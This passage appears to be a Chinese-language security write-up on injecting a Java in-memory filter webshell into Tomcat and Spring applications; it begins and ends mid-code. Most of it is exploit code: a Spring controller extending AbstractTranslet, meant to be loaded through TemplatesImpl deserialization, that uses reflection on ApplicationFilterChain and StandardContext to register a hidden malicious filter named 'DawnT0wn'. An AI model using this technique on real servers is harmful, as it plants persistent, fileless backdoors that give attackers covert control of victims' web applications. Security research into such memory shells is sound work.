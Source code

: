 ```
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

![image-20221110132147742](images/21.png)

不过这些代码放到spring里面反射的时候会找到不filterConfigs，也不知道为什么，明明调试的时候里面有filterConfigs，可能是只有用tomcat的时候才能实现吧，毕竟上基于tomcat组件的，spring起的时候通过controller，不是servlet

但threedr3am在先知那篇文章却可以放在spring里面用，还是可以直接打templatesImp加载恶意类

```
package com.example.spring.Controller;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

@Controller
public class FilterShellController extends AbstractTranslet implements Filter{
    @RequestMapping("/filter")
    @ResponseBody
    public void aaa() throws Exception{
        try {
            /*shell注入，前提需要能拿到request、response等*/
            java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal t = (ThreadLocal) f.get(null);
            ServletRequest servletRequest = null;
            //不为空则意味着第一次反序列化的准备工作已成功
            if (t != null && t.get() != null) {
                servletRequest = (ServletRequest) t.get();
            }
            if (servletRequest != null) {
                javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                org.apache.catalina.core.StandardContext standardContext = null;
                //判断是否已有该名字的filter，有则不再添加
                if (servletContext.getFilterRegistration("DawnT0wn") == null) {
                    //遍历出标准上下文对象
                    for (; standardContext == null; ) {
                        java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                        contextField.setAccessible(true);
                        Object o = contextField.get(servletContext);
                        if (o instanceof javax.servlet.ServletContext) {
                            servletContext = (javax.servlet.ServletContext) o;
```